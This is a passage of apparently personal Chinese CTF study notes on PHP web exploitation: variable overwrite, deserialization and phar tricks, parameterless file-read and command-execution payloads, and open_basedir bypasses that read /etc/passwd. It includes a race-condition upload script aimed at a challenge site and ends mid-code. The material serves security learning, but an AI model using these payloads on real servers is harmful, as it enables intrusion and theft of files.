* [PHP变量覆盖](#php变量覆盖)
  * [parse\_str()](#parse_str)
  * [extract ()](#extract-)
* [PHP反序列化](#php反序列化)
  * [PHP反序列化字符串逃逸](#php反序列化字符串逃逸)
  * [phar反序列化](#phar反序列化)
    * [将phar伪造成其他格式的文件](#将phar伪造成其他格式的文件)
    * [绕过phar关键字检测](#绕过phar关键字检测)
    * [绕过\_\_HALT\_COMPILER特征检测](#绕过__halt_compiler特征检测)
* [无参数读文件](#无参数读文件)
  * [查看当前目录文件名](#查看当前目录文件名)
  * [读取当前目录文件](#读取当前目录文件)
  * [查看上一级目录文件名](#查看上一级目录文件名)
  * [读取上级目录文件](#读取上级目录文件)
  * [查看和读取多层上级路径](#查看和读取多层上级路径)
  * [查看和读取根目录文件](#查看和读取根目录文件)
* [无参数命令执行（RCE）](#无参数命令执行rce)
  * [getallheaders()和apache\_request\_headers()](#getallheaders和apache_request_headers)
  * [get\_defined\_vars()](#get_defined_vars)
  * [session\_id()](#session_id)
  * [getenv()](#getenv)
* [PHP绕过open\_basedir](#php绕过open_basedir)
  * [命令执行函数](#命令执行函数)
  * [symlink()函数](#symlink函数)
  * [glob伪协议](#glob伪协议)
    * [glob://伪协议](#glob伪协议-1)
    * [DirectoryIterator\+glob://](#directoryiteratorglob)
    * [scandir()\+glob://](#scandirglob)
    * [opendir()\+readdir()\+glob://](#opendirreaddirglob)
    * [ini\_set()绕过](#ini_set绕过)
    * [利用SplFileInfo::getRealPath()类方法绕过](#利用splfileinfogetrealpath类方法绕过)
    * [realpath()绕过](#realpath绕过)
    * [imageftbbox()绕过](#imageftbbox绕过)
    * [bindtextdomain()绕过](#bindtextdomain绕过)
  * [EXP](#exp)
* [无数字字母RCE](#无数字字母rce)
* [PHP WebShell免杀](#php-webshell免杀)
* [SSRF和Gopher](#ssrf和gopher)
  * [curl命令行工具](#curl命令行工具)
  * [SSRF中主要的协议](#ssrf中主要的协议)
  * [SSRF打redis](#ssrf打redis)
    * [Gopher](#gopher)
    * [dict](#dict)
  * [SSRF打FastCGI](#ssrf打fastcgi)
    * [消息头(请求头)](#消息头请求头)
    * [消息体(请求体)](#消息体请求体)
      * [type为1](#type为1)
      * [type为3](#type为3)
      * [type为4](#type为4)
      * [type值为5,6,7](#type值为567)
    * [完整消息record](#完整消息record)
    * [PHP\-FPM（FastCGI进程管理器）](#php-fpmfastcgi进程管理器)
      * [EXP](#exp-1)
* [redis漏洞复现](#redis漏洞复现)
* [Python沙箱逃逸](#python沙箱逃逸)
  * [花式 import](#花式-import)
  * [花式处理字符串](#花式处理字符串)
* [SSTI](#ssti)
  * [SSTI简介](#ssti简介)
  * [模板是什么](#模板是什么)
  * [漏洞成因](#漏洞成因)
  * [SSTI基础知识](#ssti基础知识)
      * [Python\-flask模板](#python-flask模板)
      * [Python中的一些 Magic Method](#python中的一些-magic-method)
  * [waf绕过](#waf绕过)
* [Flask框架session伪造](#flask框架session伪造)
* [Python中@的用法](#python中的用法)
* [hebust教务系统逆向](#hebust教务系统逆向)
* [JWT漏洞](#jwt漏洞)
* [Java安全](#java安全)
  * [命令执行](#命令执行)
    * [Windows下](#windows下)
    * [Linux下](#linux下)
  * [反射](#反射)
    * [反射机制原理](#反射机制原理)
    * [反射机制操作](#反射机制操作)
      * [获取Class对象](#获取class对象)
      * [获取成员方法Method](#获取成员方法method)
        * [invoke()方法](#invoke方法)
      * [获取构造函数Constructor](#获取构造函数constructor)
        * [newInstance()方法](#newinstance方法)
        * [getDeclaredConstructor() 方法的语法如下：](#getdeclaredconstructor-方法的语法如下)
      * [获取成员变量Field](#获取成员变量field)
  * [反序列化](#反序列化)
* [VIM](#vim)
  * [如何从正常模式进入插入模式呢？](#如何从正常模式进入插入模式呢)
  * [VIM 的命令模式](#vim-的命令模式)
  * [VIM 的正常模式](#vim-的正常模式)
* [Golang](#golang)

## PHP变量覆盖

```php
<?php
$hello = "world";
$b = "hello";
echo $$b; // echo $hello;

// 输出 world
```

### parse_str()

*`void parse_str(string $str[, array &$result])`*

把查询字符串解析到变量中

>如果未设置 array 参数，由该函数设置的变量将覆盖已存在的同名变量。
>
>php.ini 文件中的 magic_quotes_gpc 设置影响该函数的输出。如果已启用，那么在 parse_str() 解析之前，变量会被 addslashes() 转换。

https://www.runoob.com/php/func-string-parse-str.html

```php
<?php
$str = "first=value&arr[]=foo+bar&arr[]=baz";

// 推荐用法
parse_str($str, $output);
echo $output['first'];  // value
echo $output['arr'][0]; // foo bar
echo $output['arr'][1]; // baz

// 不建议这么用
parse_str($str);
echo $first;  // value
echo $arr[0]; // foo bar
echo $arr[1]; // baz
?> 
```

### extract ()

*`int extract (array &$array)`*

从数组中将变量导入到当前的符号表

该函数使用数组键名作为变量名，使用数组键值作为变量值。针对数组中的每个元素，将在当前符号表中创建对应的一个变量。

该函数返回成功设置的变量数目。



https://www.runoob.com/php/func-array-extract.html

```php
<?php

$size = "large";
$var_array = array("color" => "blue",
                   " size"  => "medium",
                   "shape" => "sphere");
extract($var_array, EXTR_PREFIX_SAME, "exist");

echo "$color, $size, $shape, $exist_size\n";

?> 
```

*<u>awctf --- 变量覆盖？</u>*

*<u>buuctf --- [[BJDCTF2020]Mark loves cat](https://buuoj.cn/challenges#[BJDCTF2020]Mark%20loves%20cat)</u>*

>　　$_SERVER["QUERY_STRING"]获取查询语句，实例中可知，获取的是?后面的值
>
>　　$_SERVER["REQUEST_URI"] 获取[http://www.xxx.com](http://www.xxx.com/)后面的值，包括/
>
>　　$_SERVER["SCRIPT_NAME"] 获取当前脚本的路径，如：index.php
>
>　　$_SERVER["PHP_SELF"] 当前正在执行脚本的文件名
>
>​		例子：http://www.xxx.com/index.php?p=222&q=biuuu
>
>　　结果：
>
>　　$_SERVER["QUERY_STRING"] = “p=222&q=u”
>
>　　$_SERVER["REQUEST_URI"] = “/index.php?p=222&q=u”
>
>　　$_SERVER["SCRIPT_NAME"] = “/index.php”
>
>　　$_SERVER["PHP_SELF"] = “/index.php”

## PHP反序列化

PHP类与对象：类、对象、方法、属性

序列化与反序列化：

- `string serialize ( mixed $value )`

  用于序列化对象或数组，并返回一个字符串。

  注意：如果属性是保护和私有的属性，那么他们序列化后的属性名会被特殊字符包裹

- `mixed unserialize ( string $str )`

  用于将通过`serialize()`函数序列化后的对象或数组进行反序列化，并返回原始的对象结构。

如何造成的反序列化？首先就是**要有可用的魔术方法作为“跳板”，且存在一些只要参数可控就会造成破坏的函数调用。**

1. 直接控制`unserialize()`的参数值

   pop链的构造：<u>*awctf --- HE-ezser*</u>

   <u>*adminpage*</u>

2. 文件读取操作

   phar压缩文件
   
   <u>*codeinlog*</u>

### PHP反序列化字符串逃逸

[PHP反序列化字符逃逸详解_filter反序列化_zhang三的博客-CSDN博客](https://blog.csdn.net/qq_45521281/article/details/107135706)

php代码序列化后的基本格式：

```
O:<length>:"<class name>":<n>:{
<field type 1>:<field length 1>:"<field name 1>";<field value type 1>:<field value 1>;
...
<field type n>:<field length n>:"<field name n>";<field value type n>:<field value n>;} 
```

- O:表示序列化的事对象
- < length>:表示序列化的类名称长度
- < class name>：表示序列化的类的名称
- < n >:表示被序列化的对象的属性个数
- {…………}：属性列表
- < field type >：属性类型
- < field length >：属性名长度
- < field name >：属性名
- < field value type >：属性值类型
- < field value >：属性值




此类题目的本质就是改变序列化字符串的长度，导致反序列化漏洞

这种题目有个共同点：

1. php序列化后的字符串经过了替换或者修改，导致字符串长度发生变化。
2. 总是先进行序列化，再进行替换修改操作。

**序列化后导致字符串变长**：<u>*awctf --- 蒸滴简单*</u>

```php
<?php
function filter($str){
    return str_replace('bb', 'ccc', $str);
}
class A{
    public $name='aaaa';
    public $pass='123456';
}
$a=new A();
echo serialize($a)."\n";
$res=filter(serialize($a));

$c=unserialize($res);
echo $c->name;
?>
```

**序列化后导致字符串变短**：<u>*buuctf --- [安洵杯 2019]easy_serialize_php*</u>

```php
<?php
function str_rep($string){
	return preg_replace( '/php|test/','', $string);
}

$test['name'] = '111phpphpphpphpphpphptest';
$test['sign'] ='111";s:4:"sign";s:3:"222";s:6:"number";s:4:"2023";}'; 
$test['number'] = '2020';
$temp = str_rep(serialize($test));
printf($temp);
$fake = unserialize($temp);
echo "\n";
print("name:".$fake['name']."\n");
print("sign:".$fake['sign']."\n");
print("number:".$fake['number']."\n");

```



### phar反序列化

https://blog.csdn.net/q20010619/article/details/120833148

**要将php.ini中的phar.readonly选项设置为Off，否则无法生成phar文件**

phar文件是php里类似于JAR的一种打包文件本质上是一种压缩文件，在PHP 5.3 或更高版本中默认开启，一个phar文件一个分为四部分：a.phar

>1.a stub
>
>​    可以理解为一个标志，格式为xxx<?php xxx; __HALT_COMPILER();?>，前面内容不限，但必须以__HALT_COMPILER();来结尾，否则phar扩展将无法识别这个文件为phar文件
>
>2.a manifest describing the contents
>
>​	phar文件本质上是一种压缩文件，其中每个被压缩文件的权限、属性等信息都放在这部分。这部分还会以序列化的形式存储用户自定义的meta-data，这是上述攻击手法最核心的地方
>
>3.the file contents
>
>被压缩文件的内容
>
>4.[optional] a signature for verifying Phar integrity (phar file format only)
>
>​	签名，放在文件末尾、

```php
<?php
    class TestObject {
    }

    @unlink("phar.phar");
    $phar = new Phar("phar.phar"); //后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("asdas<?php __HALT_COMPILER(); ?>"); //设置stub
    $o = new TestObject();
    $phar->setMetadata($o); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
?>
```

meta-data是以序列化的形式存储的

php一大部分的文件系统函数在通过phar://伪协议解析phar文件时，都会将meta-data进行反序列化，测试后受影响的函数如下


phar协议要求：

- php大于5.3.0
- 需要将php.ini的参数phar.readonly设置为off

**漏洞利用条件**

1. phar文件要能够上传到服务器端。
2. 要有可用的魔术方法作为“跳板”。
3. 文件操作函数的参数可控，且`:`、`/`、`phar`等特殊字符没有被过滤

#### 将phar伪造成其他格式的文件

如果文件上传界面后端代码会检查文件类型的话，就需要将 phar 文件未造成其他格式文件

由于php识别phar文件是通过其文件头的stub，更确切一点来说是`__HALT_COMPILER();`这段代码，对前面的内容或者后缀名是没有要求的。那么我们就可以通过添加任意的文件头+修改后缀名的方式将phar文件伪装成其他格式的文件

>474946383961, .gif, "GIF 89A"
>
>474946383761, .gif, "GIF 87A"

```php
<?php
    class TestObject {
    }

    @unlink("phar.phar");
    $phar = new Phar("phar.phar"); //后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("GIF89a<?php __HALT_COMPILER(); ?>"); //设置stub
    $o = new TestObject();
    $phar->setMetadata($o); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
?>
```


#### 绕过phar关键字检测

```
if (preg_match("/^php|^file|^gopher|^http|^https|^ftp|^data|^phar|^smtp|^dict|^zip/i",$filename){
    die();
}
```

绕过方法

```
// Bzip / Gzip 当环境限制了phar不能出现在前面的字符里。可以使用compress.bzip2://和compress.zlib://绕过
compress.bzip://phar:///test.phar/test.txt
compress.bzip2://phar:///home/sx/test.phar/test.txt
compress.zlib://phar:///home/sx/test.phar/test.txt
// 还可以使用伪协议的方法绕过
php://filter/resource=phar:///test.phar/test.txt
php://filter/read=convert.base64-encode/resource=phar://phar.phar
```

#### 绕过__HALT_COMPILER特征检测

因为phar中的`a stub`字段必须以`__HALT_COMPILER();`字符串来结尾，否则`phar`扩展将无法识别这个文件为`phar`文件，所以这段字符串不能省略，只能绕过

**方法一：**

首先将 phar 文件使用 gzip 命令进行压缩，可以看到压缩之后的文件中就没有了`__HALT_COMPILER()`，将 phar.gz 后缀改为 png（png文件可以上传）



```
filename=phar://pharppp.phar.gz/pharppp.phar
```

**方法二**

将phar的内容写进压缩包注释中，也同样能够反序列化成功，压缩为zip也会绕过该正则

```
$phar_file = serialize($exp);
    echo $phar_file;
    $zip = new ZipArchive();
    $res = $zip->open('1.zip',ZipArchive::CREATE); 
    $zip->addFromString('crispr.txt', 'file content goes here');
    $zip->setArchiveComment($phar_file);
    $zip->close();
```

这篇文章在php源码角度给出分析：https://www.anquanke.com/post/id/240007

> phar反序列化过程中，对metadata进行解析的时候会进行`php_var_unserialize()`将Phar中的metadata进行反序列化

<u>*ctfshow --- 276*</u>

<u>*BUUCTF --- [NCTF2019]phar matches everything*</u>

```python
#!/usr/bin/env python
# -*- coding: UTF-8 -*-

import requests
import threading

flag = False
url = "http://8f6f1872-fd37-4431-a005-55b6b4e1d2a2.challenge.ctf.show/"
data = open('./phar.phar', 'rb').read()

pre_resp = requests.get(url)
if pre_resp.status_code != 200:
    print(url + ' -> nonono')
    exit(1)

def upload():
    global flag
    while not flag:
        requests.post(url+"?fn=phar.phar", data=data)


def read():
    global flag
    while not flag:
        r = requests.post(url+"?fn=phar://phar.phar/", data="")
        if "ctfshow{" in r.text and flag is False:
            print(r.text)
            flag = True

if __name__ == "__main__":
    a = threading.Thread(target=upload)
    b = threading.Thread(target=read)
    a.start()
    b.start()
    a.join()
    b.join()
```

## 无参数读文件

### 查看当前目录文件名

- `localeconv()`：返回一包含本地数字及货币格式信息的数组。而数组第一项就是`.`

  

- `current()`：返回数组中的单元，默认取第一个值，或者使用`pos(localeconv());`，`pos`是`current`的别名，如果都被过滤还可以使用`reset()`，该函数返回数组第一个单元的值，如果数组为空则返回 `FALSE`

  

- `chr(46)`就是字符`.`

  ```
  构造46的几个方法
  chr(rand()) (不实际，看运气)
   
  chr(time())
   
  chr(current(localtime(time())))
  ```

  `chr(time())`：`chr()`函数以256为一个周期，所以`chr(46)`,`chr(302)`,`chr(558)`都等于`.`，所以使用`chr(time())`，一个周期必定出现一次`.`

  

  `chr(current(localtime(time())))`：数组第一个值每秒+1，所以最多60秒就一定能得到46，用`current`或者`pos`就能获得`.`

  

- `phpversion()`：返回PHP版本，如`5.5.9`

  `floor(phpversion())`返回 `5`

  `sqrt(floor(phpversion()))`返回`2.2360679774998`

  `tan(floor(sqrt(floor(phpversion()))))`返回`-2.1850398632615`

  `cosh(tan(floor(sqrt(floor(phpversion())))))`返回`4.5017381103491`

  `sinh(cosh(tan(floor(sqrt(floor(phpversion()))))))`返回`45.081318677156`

  `ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion())))))))`返回`46`

  `chr(ceil(sinh(cosh(tan(floor(sqrt(floor(phpversion()))))))))`返回`"."`

- `crypt()`：

  `hebrevc(crypt(arg))`可以随机生成一个hash值，第一个字符随机是`$`(大概率) 或者 `"."`(小概率) 然后通过`chr(ord())`只取第一个字符

  ps：`ord()`返回字符串中第一个字符的Ascii值

  `print_r(scandir(chr(ord(hebrevc(crypt(time()))))));//（多刷新几次）`

  

  同理：`strrev(crypt(serialize(array())))`也可以得到`"."`，只不过`crypt(serialize(array()))`的点出现在最后一个字符，需要使用`strrev()`逆序，然后使用`chr(ord())`获取第一个字符

  `print_r(scandir(chr(ord(strrev(crypt(serialize(array())))))));`

  

  PHP的函数如此强大，获取`"."`的方法肯定还有许多

  正常的，我们还可以用`print_r(scandir('绝对路径'));`来查看当前目录文件名

  获取绝对路径可用的有`getcwd()`和`realpath('.')`

  所以我们还可以用`print_r(scandir(getcwd()));`输出当前文件夹所有文件名

### 读取当前目录文件



`show_source(end(scandir(getcwd())));`或者用`readfile`、`highlight_file`、`file_get_contents` 等读文件函数都可以（使用`readfile`和`file_get_contents`读文件，显示在源码处）

ps：`readgzfile()`也可读文件，常用于绕过过滤

`array_reverse()`： 以相反的元素顺序返回数组，本来在最后一位，反过来就成为第一位，可以直接用`current`或者`pos`读取

`show_source(current(array_reverse(scandir(getcwd()))));`

如果是倒数第二个我们可以用：`show_source(next(array_reverse(scandir(getcwd()))));`

>`next()` 函数用于将数组内部的指针向后移动，并返回当前指针位置的下一个元素的值。
>
>```
>$fruits = array("apple", "banana", "orange");
>echo current($fruits); // Output: "apple"
>
>next($fruits); // 移动指针到下一个元素
>echo current($fruits); // Output: "banana"
>
>next($fruits); // 移动指针到下一个元素
>echo current($fruits); // Output: "orange"
>
>next($fruits); // 移动指针到下一个元素，此时没有下一个元素，返回 false
>echo current($fruits); // Output: false
>在上述示例中，通过使用 next() 函数，我们将数组指针从第一个元素移动到第二个元素，然后再移动到第三个元素，最后移动到了最后一个元素后返回了 false
>```

如果不是数组的最后一个或者倒数第二个呢？

我们可以使用`array_rand(array_flip())`，`array_flip()`是交换数组的键和值，`array_rand()`从数组中随机选择一个或多个键，并返回选定的键或键的数组

所以我们可以用：`show_source(array_rand(array_flip(scandir(getcwd()))));`

或者：`show_source(array_rand(array_flip(scandir(current(localeconv())))));`

（可以自己结合前面总结的构造`"."`的方法切合实际过滤情况读取，后文就只列举简单的语句）

### 查看上一级目录文件名

`dirname()` ：返回路径中的目录部分，比如：



如果传入的值是绝对路径（不包含文件名），则返回的是上一层路径，传入的是文件名绝对路径则返回文件的当前路径

`chdir()` ：改变当前工作目录返回值为`bool`

- dirname()方法

  `print_r(scandir(dirname(getcwd()))); //查看上一级目录的文件`

  `chdir(dirname(getcwd())); //设置上级目录为运行目录`

- 构造`..`

  我们`scandir(getcwd())`出现的数组第二个就是`".."`，所以可以用`next()`获取`print_r(next(scandir(getcwd())));`

  结合上文的一些构造都是可以获得`..`的 ：`next(scandir(chr(ord(hebrevc(crypt(time()))))))`

### 读取上级目录文件

直接`print_r(readfile(array_rand(array_flip(scandir(dirname(getcwd()))))));`是不可以的，会报错，因为默认是在当前工作目录寻找并读取这个文件，而这个文件在上一层目录，所以要先改变当前工作目录

前面写到了`chdir()`，使用：`show_source(array_rand(array_flip(scandir(dirname(chdir(dirname(getcwd())))))));`即可改变当前目录为上一层目录并读取文件：



如果不能使用`dirname()`，可以使用构造`..`的方式切换路径并读取：

但是这里切换路径后`getcwd()`和`localeconv()`不能接收参数，因为语法不允许，我们可以用之前的`hebrevc(crypt(arg))`

这里`crypt()`和`time()`可以接收参数，于是构造：

```
show_source(array_rand(array_flip(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(getcwd())))))))))));
或更复杂的：show_source(array_rand(array_flip(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(chr(ord(hebrevc(crypt(phpversion())))))))))))))));
还可以用：show_source(array_rand(array_flip(scandir(chr(current(localtime(time(chdir(next(scandir(current(localeconv()))))))))))));//这个得爆破，不然手动要刷新很久，如果文件是正数或倒数第一个第二个最好不过了，直接定位
```

还有一种构造方法`if()`：（这种更直观些，并且不需要找可接收参数的函数）

`if(chdir(next(scandir(getcwd()))))show_source(array_rand(array_flip(scandir(getcwd()))));`

### 查看和读取多层上级路径

**查看多层上级路径：**

`scandir(dirname(chdir(next(scandir(dirname(chdir(dirname(getcwd()))))))));`


`scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(current(localeconv()))))))))))))))));` 要刷新很久，建议配合burp爆破使用


**读取多层上层路径文件：**

`array_rand(array_flip(scandir(dirname(chdir(next(scandir(dirname(chdir(dirname(getcwd()))))))))));`


`array_rand(array_flip(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(chr(ord(hebrevc(crypt(chdir(next(scandir(current(localeconv()))))))))))))))))));`		建议配合burp爆破使用



### 查看和读取根目录文件

`hebrevc(crypt(arg))`或`crypt(arg)`所生成的字符串最后一个字符有几率是`/`，再用`strrev()`反转再获取第一位字符就有几率获得`/`（读根目录文件需要有权限）

`chr(ord(strrev(hebrevc(crypt(time())))))`


同样的：

    if(chdir(chr(ord(strrev(crypt(serialize(array())))))))print_r(scandir(getcwd()));


也可以查看根目录文件，但是也会受到权限限制，不一定成功

读根目录文件：(也是需要权限)

    if(chdir(chr(ord(strrev(crypt(serialize(array())))))))show_source(array_rand(array_flip(scandir(getcwd()))));

## 无参数命令执行（RCE）

```php
<?php
highlight_file(__FILE__);
if(';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['code'])) { 
    eval($_GET['code']);
}
?>
```

我们可以使用无参数函数任意读文件，也可以执行命令：

既然传入的`code`值不能含有参数，那我们可不可以把参数放在别的地方，`code`用无参数函数来接收参数呢？这样就可以打破无参数函数的限制：

首先想到请求头参数`headers`，因为`headers`我们用户可控




### getallheaders()和apache\_request\_headers()

`getallheaders()`是`apache_request_headers()`的别名函数，但是该函数只能在`Apache`环境下使用，任何`header`头部都可利用：

先查看哪个参数在第一位，然后直接修改第一位的`header`参数为payload，然后选择到它执行即可。



`system(next(getallheaders()))`



### get\_defined\_vars()

该函数会返回全局变量的值，如get、post、cookie、file数据，返回一个多维数组，所以需要使用两次取数组值：




```
system(current(next(get_defined_vars())))
```

如何利用file变量进行rce呢？

>python发送文件
>
>```python
>import requests
>
>if __name__ == "__main__":
>    url = 'http://192.168.0.103/norce/index.php'
>    # burp抓包查看文件包
>    proxy = {
>       'http': '127.0.0.1:8080',
>       'https': '127.0.0.1:8080'
>    }
>    # 单个文件
>    # "uploadName": ("filename", "fileobject", "content-type", {"headers": "arg"})
>    r_file = {
>       'data': ('data', "1", "image/jpeg", {"aa": 'bb'})
>    }
>    # 多个文件
>    r_files = {
>        'data1': ('data_1', "1", "image/jpeg", {"aa": 'bb'}),
>        'data2': ('data_2', "2", "image/jpeg")
>    }
>    r_files_2 = [('image1', ('1.png', '1', 'image/png', {"aa": "bb"})),
>                 ('image2', ('2.png', '2', 'image/png'))]
>    r = requests.post(url=url, headers=header, files=r_files_2, proxies=proxy)
>    print(r.text)
>```
>
>

这里要注意的是，file数组在最后一个，需要end定位，因为payload直接放在文件的名称上，再pos两次定位获得文件名

`print_r(system(pos(current(end(get_defined_vars())))))`


### session_id()

`session_id()`：可以用来获取/设置 当前会话 ID。

session需要使用`session_start()`开启，然后返回参数给`session_id()`

但是有一点限制：文件会话管理器仅允许会话 ID 中使用以下字符：a-z A-Z 0-9 ,（逗号）和 - 减号）

但是`hex2bin()`函数可以将十六进制转换为ASCII 字符，所以我们传入十六进制并使用`hex2bin()`即可

`if(session_start())var_dump(eval(hex2bin(session_id())));`



>PHP7.3.4只能用这种方式来实现，PHP5可以不使用if而是把`session_start()`嵌套在`session_id()`里面
>
>PHP7.3.4
>
>
>PHP5.4.45
>`var_dump(eval(hex2bin(session_id(session_start()))));`
>
>
>而PHP7.3.4使用嵌套方式`session_id()`就会返回`false`
>
>
>初步判定是因为`session_start()`开启成功后会返回1，导致`session_id()`内有参数，让PHP以为是要修改PHPSESSID，从而导致无法获取到PHPSESSID

### getenv()

`getenv()` ：获取环境变量的值(在PHP7.1之后可以不给予参数)

所以该函数只适用于PHP7.1之后版本，否则会出现：`Warning: getenv() expects exactly 1 parameter, 0 given in ...`报错


  

`getenv()` 可以用来收集信息，实际利用一般无法达到命令执行效果，因为默认的`php.ini`中，`variables_order`值为：`GPCS`

也就是说系统在定义PHP预定义变量时的顺序是 `GET,POST,COOKIES,SERVER`，没有定义`Environment(E)`，你可以修改`php.ini`文件的 `variables_order`值为你想要的顺序，如：`"EGPCS"`。这时，`$_ENV`的值就可以取得了


我们来看修改后的值：（环境不同，环境变量显示也不同）



对此我们可以加以利用，方法同上文：



## PHP绕过open_basedir

[PHP绕过open_basedir列目录的研究 | 离别歌 (leavesongs.com)](https://www.leavesongs.com/PHP/php-bypass-open-basedir-list-directory.html)

[PHP绕过open_basedir限制操作文件的方法_lonmar~的博客-CSDN博客](https://blog.csdn.net/weixin_45551083/article/details/110109369)

[open_basedir绕过 - Von的博客 | Von Blog (v0n.top)](https://www.v0n.top/2020/07/10/open_basedir绕过/)

**关于`open_basedir`：**

pen_basedir是php.ini中的一个配置选项，它可将用户访问文件的活动范围限制在指定的区域，假设`open_basedir=/home/wwwroot/home/web1/:/tmp/`，那么通过web1访问服务器的用户就无法获取服务器上除了/home/wwwroot/home/web1/和/tmp/这两个目录以外的文件。
注意用open_basedir指定的限制实际上是前缀,而不是目录名，举例来说: 若"open_basedir = /dir/user", 那么目录 “/dir/user” 和 "/dir/user1"都是可以访问的。所以如果要将访问限制在仅为指定的目录，请用斜线结束路径名。

**关于软连接：**

[Linux 命令之软连接详解_linux 软连接_LawsonAbs的博客-CSDN博客](https://blog.csdn.net/liu16659/article/details/83714066)

软链接文件有类似于Windows的快捷方式。它实际上是一个特殊的文件。在符号连接中，文件实际上是一个文本文件，其中包含的有另一文件的位置信息。

路径可以是任意文件或目录，可以链接不同文件系统的文件。在对符号文件进行读或写操作的时候，系统会自动把该操作转换为对源文件的操作，但删除链接文件时，系统仅仅删除链接文件，而不删除源文件本身。

### 命令执行函数

由于open_basedir的设置对system等命令执行函数是无效的，所以我们可以使用命令执行函数来访问限制目录。

当我们设置好open_basedir之后，通过`file_get_contents()`去读取其他目录的文件，执行效果如图


很明显我们无法直接读取open_basedir所规定以外的目录文件。接下来通过`system()`来实现相同的功能



通过命令执行函数绕过open_basedir来读取flag，由于命令执行函数一般都会被限制在disable_function当中，所以我们需要寻找其他的途径来绕过限制。

### symlink()函数

我们先来了解一下`symlink()`函数

```
bool symlink ( string $target , string $link )
```

`symlink()`函数将建立一个指向target的名为link的符号链接，当然一般情况下这个target是受限于open_basedir的。

我们可以通过symlink完成一些逻辑上的绕过导致可以跨目录操作文件。

open_bashedir配置：`open_basedir = /var/www/html/`

首先在/var/www/html/slink.php中 编辑slink.php的内容为

```php
<?php
  //phpinfo();
  highlight_file(__FILE__);
  mkdir("./a");
  chdir("./a");
  mkdir("./b");
  chdir("./b");
  chdir("../");
  chdir("../");
  symlink("./a/b","tmplink");
  symlink("tmplink/../../flag","exp");
  unlink("tmplink");
  mkdir("tmplink");
  echo file_get_contents("http://127.0.0.1/exp");
?>
```

接着在/var/www/中新建一个flag文件内容为`flag{Hack!}`



正常读一下内容


执行刚才写好的脚本


成功读取到flag，绕过了open_opendir的限制

因为一开始`tmplink`是一个软连接，链接`./a/b/`也就是`/vat/html/www/a/b/`所以`symlink("tmplink/../../flag","exp");`这条语句就相当于`symlink("/vat/html/www/a/b/../../flag","exp");`符合open_basedir的限制，所以`exp`这个软连接就成功建立了，然后删除软连接`tmplink`，再创建`tmplink`目录，此时语句就相当于`symlink("/vat/html/www/tmplink/../../flag","exp");`，由于这时候`tmplink`变成了一个真实存在的文件夹所以`tmplink/../../`变成了flag所在的目录即`/var/www/`，然后再通过访问符号链接文件`exp`即可直接读取到`flag`文件的内容，当然，针对`symlink()`只需要将它放入disable_function即可解决问题，所以我们需要寻求更多的方法。

### glob伪协议

glob是php自5.3.0版本起开始生效的一个用来筛选目录的伪协议，由于它在筛选目录时是不受open_basedir的制约的，所以我们可以利用它来绕过限制

```php
<?php
  $a = "glob:///var/www/";
  if ( $b = opendir($a) ) {
    while ( ($file = readdir($b)) !== false ) {
      echo "filename:".$file."\n";
    }
    closedir($b);
  }
?>
```

#### glob://伪协议

glob://协议是php5.3.0以后一种查找匹配的文件路径模式。
官方给出了一个示例用法

```php
<?php
// 循环 ext/spl/examples/ 目录里所有 *.php 文件
// 并打印文件名和文件尺寸
$it = new DirectoryIterator("glob://ext/spl/examples/*.php");
foreach($it as $f) {
    printf("%s: %.1FK\n", $f->getFilename(), $f->getSize()/1024);
}
?
```

glob://伪协议需要结合其他函数方法才能列目录，单纯传参glob://是没办法列目录的。

#### DirectoryIterator+glob://

DirectoryIterator是php5中增加的一个类，为用户提供一个简单的查看目录的接口，利用此方法可以绕过open_basedir限制。(但是似乎只能用于Linux下)
脚本差不多如下:

```php
<?php
$a = new DirectoryIterator("glob:///*");
foreach($a as $f){
    echo($f->__toString().'<br>');
}
?>
```

可以看到,成功列出目录:


当传入的参数为glob:///\*时会列出根目录下的文件，传入参数为glob://\*时会列出open_basedir允许目录下的文件。

#### scandir()+glob://

这是看TCTF WP里面的一种方法，最为简单明了: 代码如下:

```
<?php
var_dump(scandir('glob:///*'));
>
```



这种方法也只能列出根目录和open_basedir允许目录下的文件。

#### opendir()+readdir()+glob://

脚本如下:

```
<?php
if ( $b = opendir('glob:///*') ) {
    while ( ($file = readdir($b)) !== false ) {
        echo $file."<br>";
    }
    closedir($b);
}
?>
```



同理，这种方法也只能列出根目录和open_basedir允许目录下的文件。
可以看到，上面三种和glob://相关的协议，最大的缺陷就是只能列目录，而且还只能列根目录和open_basedir允许目录的内容。

#### ini_set()绕过

>`ini_set()`函数：
>
>ini_set()用来设置php.ini的值，在函数执行的时候生效，脚本结束后，设置失效。无需打开php.ini文件，就能修改配置。函数用法如下:
>
>```
>ini_set ( string $varname , string $newvalue ) : string
>```
>
>- varname是需要设置的值
>- newvalue是设置成为新的值
>- 成功时返回旧的值，失败时返回 FALSE。

当前我们处在/var/www/html文件夹下，对应的POC为:

```php
<?php
mkdir('Von');  //创建一个目录Von
chdir('Von');  //切换到Von目录下
ini_set('open_basedir','..');  //把open_basedir切换到上层目录
chdir('..');  //以下这三步是把目录切换到根目录
chdir('..');
chdir('..');
ini_set('open_basedir','/');  //设置open_basedir为根目录(此时相当于没有设置open_basedir)
echo file_get_contents('/etc/passwd');  //读取/etc/passwd
```

原理涉及到了PHP的底层实现，较为复杂，具体可以参考这几篇文章。

[bypass open_basedir的新方法 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/4720)

[从PHP底层看open_basedir bypass · sky's blog (skysec.top)](https://skysec.top/2019/04/12/从PHP底层看open-basedir-bypass/#poc测试)

#### 利用SplFileInfo::getRealPath()类方法绕过

`SplFileInfo`类是PHP5.1.2之后引入的一个类，提供一个对文件进行操作的接口。我们在`SplFileInfo`的构造函数中传入文件相对路径，并且调用`getRealPath()`即可获取文件的绝对路径。
这个方法有个特点：完全没有考虑open_basedir。在传入的路径为一个不存在的路径时，会返回false；在传入的路径为一个存在的路径时，会正常返回绝对路径。脚本如下:

```php
<?php
